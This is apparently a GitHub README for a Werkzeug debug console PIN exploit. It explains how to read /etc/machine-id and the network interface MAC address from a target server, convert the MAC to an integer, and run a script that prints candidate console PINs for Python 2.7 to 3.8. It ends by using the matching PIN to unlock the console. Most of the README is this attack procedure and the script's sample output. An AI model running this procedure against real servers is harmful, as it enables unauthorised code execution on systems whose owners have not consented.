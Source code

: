 # Werkzeug Console PIN Exploit
![alt text](https://github.com/ahrixia/flask-console-pin-generator/blob/main/poc-img/Werkzeug_Console_OUT.png "Locked Console")
### Tested on :
- Python 3.6.9
- Server - Werkzeug 1.0.1
- Linux 4.15.0-20-generic #21-Ubuntu x86_64 GNU/Linux

## Proof of Concept - POC
1. Get `/etc/machine-id` and `/sys/class/net/$INTERFACE/address` from the target. 
3. Convert the Interface address(MAC) to integer form. Eg- `00:50:56:bf:d7:70` to `345052796784`. This could be done using python as follows:
```python
>>> print(0x005056bfd770)
345052796784
```
3. Run the python script.
```bash
$python as.py --uuid 345052796784  --machineid 00566233196142e9961b4ea12a2bdb29 
[!] App.py base path not provided, trying on Python Versions - 2.7 and 3.0 - 3.8.
Python V2.7 PIN: 134-138-423
Python V3.0 PIN: 278-866-810
Python V3.1 PIN: 299-529-114
Python V3.2 PIN: 223-757-906
Python V3.3 PIN: 181-173-573
Python V3.4 PIN: 201-362-587
Python V3.5 PIN: 195-645-696
Python V3.6 PIN: 328-723-543
Python V3.7 PIN: 300-924-247
Python V3.8 PIN: 880-398-758
```
4. Use the PIN with the Python Version installed on the target to get into the console.
![alt text](https://github.com/ahrixia/flask-console-pin-generator/blob/main/poc-img/Werkzeug_Console_IN.png "Unlocked Console")
---
**NOTE**: This script runs with some default infomation such as Username as www-data and Hash as MD5. You can run the `-h` flag for more information.
